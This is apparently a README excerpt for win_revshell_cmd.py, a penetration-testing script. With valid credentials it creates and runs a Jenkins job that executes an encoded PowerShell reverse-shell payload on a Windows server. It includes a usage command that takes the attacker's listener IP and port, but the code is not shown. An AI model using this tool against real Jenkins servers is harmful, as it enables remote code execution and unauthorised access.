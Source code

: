 ## win_revshell_cmd.py
This script is useful when you have valid credentials and want to check if it can be use to spawn a reverse shell.\
The Jenkins server must be installed on Windows.\
To be able to receive a reverse shell, the user must have BUILD and JOB CREATION privileges.\
Once logged in on Jenkins, the script creates a new "Freestyle project" JOB.\
![win_rev_shell_1](https://github.com/stevenvegar/Jenkins_scripts/blob/main/win_revshell_cmd.py/images/win_revshell_cmd_1.png)

Then configures or BUILD it to "Execute Windows batch command" with the Powershell encoded payload.
![win_rev_shell_2](https://github.com/stevenvegar/Jenkins_scripts/blob/main/win_rev_shell.py/images/win_revshell_cmd_2.png)

Finally, the script sends the instruction to execute this JOB.

USAGE:
python3 ./win_revshell_cmd.py -w URL -r LOCAL_IP -rp LOCAL_PORT
![win_rev_shell_3](https://github.com/stevenvegar/Jenkins_scripts/blob/main/win_rev_shell.py/images/win_revshell_cmd_3.png)
![win_rev_shell_4](https://github.com/stevenvegar/Jenkins_scripts/blob/main/win_rev_shell.py/images/win_revshell_cmd_4.png)

Tested on Jenkins 2.150.2 and Windows 10 Pro 22H2 b.19045
